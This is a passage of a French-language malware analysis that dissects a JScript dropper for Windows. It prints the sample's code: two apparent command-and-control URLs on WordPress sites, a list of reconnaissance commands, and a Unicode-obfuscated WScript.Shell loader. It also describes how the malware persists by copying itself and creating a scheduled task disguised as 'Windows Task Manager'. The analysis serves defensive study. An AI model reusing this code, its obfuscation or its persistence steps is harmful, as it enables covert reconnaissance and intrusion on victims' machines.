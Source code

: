 - stockage des commandes de reconnaissance du système dans une variable, non obfusquées.

- initialisation d'une variable qui contient le nom du script, elle sera utilisée plus tard.

```javascript
var CKpR = new Array("http://www.saipadiesel124.com/wp-content/plugins/imsanity/tmp.php", "http://www.folk-cantabria.com/wp-content/plugins/wp-statistics/includes/classes/gallery_create_page_field.php");
var tpO8 = "w3LxnRSbJcqf8HrU";
var recon_commands = new Array("systeminfo > ", "net view >> ", "net view /domain >> ", "tasklist /v >> ", "gpresult /z >> ", "netstat -nao >> ", "ipconfig /all >> ", "arp -a >> ", "net share >> ", "net use >> ", "net user >> ", "net user administrator >> ", "net user /domain >> ", "net user administrator /domain >> ", "set  >> ", "dir %systemdrive%\x5cUsers\x5c*.* >> ", "dir %userprofile%\x5cAppData\x5cRoaming\x5cMicrosoft\x5cWindows\x5cRecent\x5c*.* >> ", "dir %userprofile%\x5cDesktop\x5c*.* >> ", "tasklist /fi \x22modules eq wow64.dll\x22  >> ", "tasklist /fi \x22modules ne wow64.dll\x22 >> ", "dir \x22%programfiles(x86)%\x22 >> ", "dir \x22%programfiles%\x22 >> ", "dir %appdata% >>");
var QUjy = new ActiveXObject("Scripting.FileSystemObject");
var script_name = WScript.ScriptName;
```

Le programme va initialiser la classe WScriptShell qui permettra par la suite d'exécuter les commandes ci-dessus. Cette initialisation est obfusquée en deux étapes, sans doute pour ne pas déclencher l'antivirus.

```javascript
function get_WScriptShell() {// ActiveXObject(WScript.Shell())
    var spq3 = this['\u0041\u0063\u0074i\u0076eX\u004F\u0062j\u0065c\u0074'];
    // ActiveXObject
    var zBVv = new spq3('\u0057\u0053cr\u0069\u0070\u0074\u002E\u0053he\u006C\u006C');
    // WScript.Shell
    return zBVv;
}
```

### Premier niveau de persistance : copie du script

Le code se localise dans le système de la victime puis va chercher à se copier dans `c:\Users\<username>\AppData\Local\Microsoft\Windows\` ou `c:\Users\<username>\AppData\Local\Temp\` ou `c:\Documents and Settings\<username>\Application Data\Microsoft\Windows\`, selon si les chemins existent sur le système.

Le malware va également essayer de se maintenir dans le système en se copiant dans le premier répertoire existant, avant de se mettre en dormance pendant un temps variable entre 5 et 10 minutes.

### Second niveau de persistance : tâche planifiée

Après la dormance, le script va se créer une tâche planifiée dont voici les caractéristiques :

- la tâche est créée sous l'identifiant de l'utilisateur courant.

- la description de la tâche est générique : `Windows Task Manager`.

- la tâche est immédiatement activée et démarerra dès que possible.

- la tâche n'est pas masquée à l'utilisateur.

- la date de début et de fin du déclencheur de la tâche sont `2015-07-12T11:47:24` et `2020-03-21T08:00:00` (non obfusquées).
